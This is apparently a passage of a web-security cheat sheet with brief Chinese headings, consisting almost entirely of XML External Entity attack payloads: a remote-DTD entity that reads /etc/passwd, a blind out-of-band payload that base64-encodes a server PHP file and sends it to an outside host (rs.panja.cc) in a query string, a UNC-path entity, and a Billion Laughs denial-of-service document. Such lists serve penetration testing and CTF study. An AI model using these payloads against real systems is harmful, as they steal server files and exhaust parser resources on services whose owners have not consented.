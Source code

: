 ```xml
<!DOCTYPE kaibro[
    <!ENTITY xxe SYSTEM "\\12.34.56.78">
]>
<root>&xxe;</root>
```

## 参数实体

```xml
<!DOCTYPE kaibro[
    <!ENTITY % remote SYSTEM "http://rs.panja.cc/xxe.dtd">
    %remote;
]>
<root>&b;</root>
```
xxe.dtd: `<!ENTITY b SYSTEM "file:///etc/passwd">`


## Out of Band (OOB) XXE

- Blind 无回显

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/xxe/test.php">
<!ENTITY % remote SYSTEM "http://rs.panja.cc/xxe.dtd">
%remote;
%all;
%send;
]>
```

xxe.dtd:

```xml
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://rs.panja.cc/?a=%file;'>">
```

## DoS

- Billion Laugh Attack

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```
